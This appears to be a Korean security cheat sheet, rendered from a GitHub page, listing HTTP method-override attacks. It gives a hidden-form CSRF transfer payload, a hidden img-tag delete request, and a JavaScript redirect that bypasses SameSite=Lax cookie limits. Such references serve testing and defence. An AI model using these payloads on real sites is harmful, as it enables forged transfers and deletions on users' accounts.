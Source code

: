 ### Injection

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>HTML Form-based Injection</td>
      <td>
        <pre><code>&lt;form action="https://target.com/transfer" method="POST">
    &lt;input type="hidden" name="_method" value="GET">
    &lt;input type="hidden" name="recipient" value="attacker">
    &lt;input type="hidden" name="amount" value="1000">
    &lt;input type="submit" value="Click me!">
&lt;/form></code></pre>
      </td>
      <td>HTML 폼의 숨겨진 필드를 통해 Method Override 파라미터를 주입한다.</td>
      <td>[C], [I]</td>
    </tr>
    <tr>
      <td>Image Tag GET Request Masquerading</td>
      <td>
        <pre><code>&lt;img src="https://target.com/delete?id=123&amp;_method=POST" style="display:none;"></code></pre>
      </td>
      <td>이미지 태그의 `src` 속성을 이용하여 GET 요청으로 위장한 공격을 수행한다.</td>
      <td>[C]</td>
    </tr>
  </tbody>
</table>

### Bypass

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>SameSite=Lax Bypass Technique</td>
      <td>
        <pre><code>// Top-level navigation을 통한 우회
document.location = "https://target.com/transfer?recipient=attacker&amount=1000&_method=POST";</code></pre>
      </td>
      <td>SameSite=Lax 쿠키 제한을 우회하기 위해 Method Override를 통해 POST 요청을 GET으로 변환하여 top-level navigation으로 인식시킨다.</td>
      <td>[D], [1]</td>
    </tr>
  </tbody>
</table>
